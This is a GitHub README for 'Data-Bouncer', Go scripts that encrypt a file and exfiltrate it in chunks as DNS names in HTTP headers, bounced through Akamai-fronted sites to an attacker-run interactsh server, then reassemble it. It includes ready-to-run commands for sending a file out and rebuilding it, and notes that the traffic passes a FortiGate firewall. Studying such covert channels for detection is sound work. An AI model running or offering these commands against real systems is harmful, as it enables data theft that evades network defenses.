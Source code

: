 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for demonstration purposes.

One that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on any url that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt, first encrypts your chosen file using a password you provided, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename.txt> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh server, processes and reassembles the chunks and does the reverse by decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile.txt> -p <password> -u <UUID> -v
```

### Images
Example of forward traffic from a FortiGate 

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)


Example of bouncing a file

![bounce](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/3ddfe42e-97f5-4693-b44b-8ecc544a8f0c)


Example of regenerating a file

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

